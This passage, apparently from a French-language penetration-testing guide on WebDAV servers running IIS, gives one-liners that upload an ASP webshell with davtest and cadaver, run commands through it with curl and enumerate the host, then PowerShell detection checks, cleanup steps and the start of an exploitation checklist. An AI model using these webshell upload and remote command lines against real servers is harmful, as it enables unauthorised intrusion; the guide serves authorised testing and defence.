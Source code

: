 ### One-liners WebDAV
```bash
# Test rapide WebDAV + upload
davtest -auth bob:password -url http://target/webdav && echo "put /usr/share/webshells/asp/webshell.asp" | cadaver http://target/webdav

# RCE test rapide
curl "http://target/webdav/webshell.asp?cmd=whoami"

# Enumération rapide post-RCE
for cmd in whoami hostname "dir C%3A%5C"; do echo "=== $cmd ==="; curl -s "http://target/webdav/webshell.asp?cmd=$cmd"; done
```

---

## 🛡️ 15. Détection et contre-mesures

### Détection côté défenseur
```powershell
# Vérifier uploads WebDAV
Get-ChildItem C:\inetpub\wwwroot\webdav\ -Recurse

# Logs IIS d'activité WebDAV
Get-EventLog -LogName System | Where-Object {$_.Source -eq "Microsoft-Windows-IIS-W3SVC"}

# Processus suspects depuis IIS
Get-Process | Where-Object {$_.ProcessName -like "*w3wp*"}
```

### Nettoyage des artefacts
```bash
# Supprimer webshells uploadés
cadaver http://target/webdav
delete webshell.asp
delete meterpreter.asp

# Via RCE si toujours actif
curl "http://target/webdav/webshell.asp?cmd=del+C%3A%5Cinetpub%5Cwwwroot%5Cwebdav%5Cwebshell.asp"
```

---

## 📋 16. Checklist exploitation WebDAV

### ✅ Phase de reconnaissance
- [ ] **Port 80/443** ouvert et IIS détecté
- [ ] **Répertoire /webdav** découvert
- [ ] **Méthodes HTTP** autorisées identifiées
- [ ] **Type d'authentification** déterminé

